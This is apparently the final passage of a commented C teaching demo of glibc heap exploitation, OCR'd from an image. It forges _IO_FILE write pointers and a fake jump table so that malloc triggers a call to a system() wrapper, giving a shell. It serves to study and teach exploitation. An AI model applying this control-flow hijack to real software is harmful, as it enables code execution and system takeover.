 ```c

    /*
      2. Set write_base to 2 and write_ptr to 3: fp->_IO_write_ptr > fp->_IO_write_base
    */

    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28


    /*
      4) Finally set the jump table to controlled memory and place system there.
      The jump table pointer is right after the _IO_FILE struct:
      base_address+sizeof(_IO_FILE) = jump_table

         4-a)  _IO_OVERFLOW  calls the ptr at offset 3: jump_table+0x18 == winner
    */

    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(_IO_FILE)) = (size_t) jump_table; // top+0xd8


    /* Finally, trigger the whole chain by calling malloc */
    malloc(10);

   /*
     The libc's error message will be printed to the screen
     But you'll get a shell anyways.
   */

    return 0;
}

int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```

